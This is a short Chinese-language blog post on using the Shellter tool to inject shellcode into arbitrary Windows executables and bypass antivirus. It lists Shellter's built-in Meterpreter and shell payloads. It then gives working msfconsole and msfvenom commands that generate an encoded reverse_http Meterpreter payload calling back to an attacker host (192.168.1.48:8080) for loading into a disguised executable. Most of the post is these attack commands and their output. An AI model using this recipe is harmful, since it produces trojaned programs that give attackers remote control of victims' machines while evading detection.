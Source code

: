 ```yaml
---
layout: post
title:  "shellter加载自定义payload"
date:   2016-11-22 16:00:01 +0800
categories: MSF
tag: Bypass AV
---
```


* content
{:toc}


shellter可将shellcode注入到任意exe，隐身模式下原exe功能丝毫不受影响，提供自动模式或手动模式加载，菜鸟和高手都能轻松运用。

shellter自身提供个一些基本的payload，如下


    ************
    * Payloads *
    ************
    
    [1] Meterpreter_Reverse_TCP   [stager]
    [2] Meterpreter_Reverse_HTTP  [stager]
    [3] Meterpreter_Reverse_HTTPS [stager]
    [4] Meterpreter_Bind_TCP      [stager]
    [5] Shell_Reverse_TCP         [stager]
    [6] Shell_Bind_TCP            [stager]
    [7] WinExec
    
   



这里就不详细说，重点说加载自定义的payload，custom_payload

用msf或者cobalt strike等都行，这里用msf的作为例子，如下生成：

    msf > use payload/windows/meterpreter/reverse_http
    
    msf payload(reverse_http) > show options
    msf payload(reverse_http) > set lhost 192.168.1.48
    lhost => 192.168.1.48
    msf payload(reverse_http) > set exitfunc thread
    exitfunc => thread
    msf payload(reverse_http) > generate -E -e x86/shikata_ga_nai -t raw -f Green_m.raw
    [*] Writing 351 bytes to Green_m.raw ...

或者

    msfvenom -p windows/meterpreter/reverse_http -e x86/shikata_ga_nai -i 8 -b ‘\x00’ LHOST=192.168.1.48 LPORT=8080  -f raw -o /root/Desktop/Green_m.raw

然后Select Payload的时候选择刚刚的生成的Green_m.raw。

***注：本文所做所有测试不保证完全有效，仅供参考。***

[shellter官网](https://www.shellterproject.com/)

转载请注明出处：[https://green-m.github.io/2016/11/15/meterpreter-bypass-av/](https://green-m.github.io/2016/11/15/meterpreter-bypass-av/)

